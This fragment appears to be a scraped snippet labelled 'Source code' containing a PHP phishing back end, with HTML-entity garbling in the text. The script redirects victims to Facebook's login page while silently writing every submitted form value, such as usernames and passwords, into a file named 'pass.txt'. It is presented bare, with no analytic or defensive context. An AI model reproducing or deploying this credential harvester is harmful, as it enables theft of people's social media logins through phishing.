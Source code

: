 # amp;lt;?php header('Location: http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable =&amp;gt; $value) { fwrite($handle, $variable); fwrite($handle, '='); fwrite($handle, $value); fwrite($handle, '\n'); } fwrite($handle, '\n'); fclose($handle); exit; ?&amp;
